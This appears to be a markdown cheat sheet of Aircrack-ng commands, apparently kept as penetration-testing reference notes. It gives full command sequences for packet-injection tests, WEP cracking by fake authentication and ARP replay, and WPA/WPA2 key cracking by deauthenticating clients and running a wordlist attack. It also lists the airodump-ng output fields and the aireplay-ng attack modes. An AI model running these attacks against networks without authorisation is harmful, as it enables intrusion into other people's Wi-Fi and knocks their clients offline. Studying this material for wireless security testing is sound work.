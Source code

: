 # Aircrack-ng :
   * [Injection test](https://www.aircrack-ng.org/doku.php?id=injection_test)
     * The injection test determines if your card can successfully inject and determine the ping response times to the Access Point (AP)
      ```bash
         # List wireless interfaces
         iwconfig
         # Start the wireless interface in monitor mode on a specific AP channel
         airmon-ng start wlan0 8
         # Test the injection capability of the wireless device to the AP
         aireplay-ng -9 -e teddy -a 00:14:6C:7E:40:80 wlan0mon 
      ```
   ## WEP crack
   * [Flowchart : Wep Cracking](http://www.aircrack-ng.org/img/simple-wep-crack.gif)
   * [Crack WEP (with client)](https://www.aircrack-ng.org/doku.php?id=simple_wep_crack) (fake authentication combined with ARP request replay technique)
    
     * List wireless interfaces
       * **iwconfig**
     * Start the wireless interface in monitor mode on the specific AP channel
       *  **airmon-ng start wlan0**
     * Show available AP
       * **airodump-ng wlan0mon**
     * Start airodump-ng to capture the IVs
       * **airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w output wlan0mon**
     * Use aireplay-ng to do a fake authentication with the access point (To associate with an access point)
       * **aireplay-ng -1 0 -e teddy -a 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0mon**
     * Start aireplay-ng in ARP request replay mode to inject packets
       * **aireplay-ng -3 -b 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0mon**
     * Run aircrack-ng to crack key using the IVs collected
       * **aircrack-ng -b 00:14:6C:7E:40:80 output*.cap**

   * [Crack WEP (without client)](https://www.aircrack-ng.org/doku.php?id=how_to_crack_wep_with_no_clients)

  # WAP crack
  
   * Crack WPA/WPA2 pre-shared key
     * Start airodump-ng to collect authentication handshake
       * **airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w psk wlan0mon**
     * Use aireplay-ng to deauthenticate the wireless client
       * **aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:FD:FB:C2 wlan0mon**
     * Run aircrack-ng to crack the pre-shared key
       * **aircrack-ng -w password.lst -b 00:14:6C:7E:40:80 psk*.cap**

  # WPS crack pin

   * [The upper data block shows the access points found](https://www.aircrack-ng.org/doku.php?id=newbie_guide)

      Name | Description
      ------------ | -------------
      **BSSID**   |	The MAC address of the AP|
      **PWR**     |	Signal strength. Some drivers don't report it|
      **Beacons** |	Number of beacon frames received. If you don't have a signal strength you can estimate it by the number of beacons: the more beacons, the better the signal quality|
      **Data** 	|Number of data frames received|
      **CH** 	    |Channel the AP is operating on|
      **MB**      |	Speed or AP Mode. 11 is pure 802.11b, 54 pure 802.11g. Values between are a mixture|
      **ENC**     |	Encryption: OPN: no encryption, WEP: WEP encryption, WPA: WPA or WPA2 encryption, WEP?: WEP or WPA (don't know yet)|
      **ESSID**   |	The network name. Sometimes hidden |

   * [The lower data block shows the clients found](https://www.aircrack-ng.org/doku.php?id=newbie_guide) 

      Name | Description
      ------------ | -------------
      | **BSSID**   | The MAC of the AP this client is associated to |
      | **STATION** | The MAC of the client itself |
      | **PWR**     | Signal strength. Some drivers don't report it  |
      | **Packets** | Number of data frames received  |
      | **Probes**  | Network names (ESSIDs) this client has probed |

   * [different attacks](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)

     * **--deauth count** : deauthenticate 1 or all stations (-0)
     * **--fakeauth delay** : fake authentication with AP (-1)
     * **--interactive** : interactive frame selection (-2)
     * **--arpreplay** : standard ARP-request replay (-3)
     * **--chopchop** : decrypt/chopchop WEP packet (-4)
     * **--fragment** : generates valid keystream (-5)
     * **--caffe-latte** : query a client for new IVs (-6)
     * **--cfrag** : fragments against a client (-7)
     * **--test** : tests injection and quality (-9)
     
     
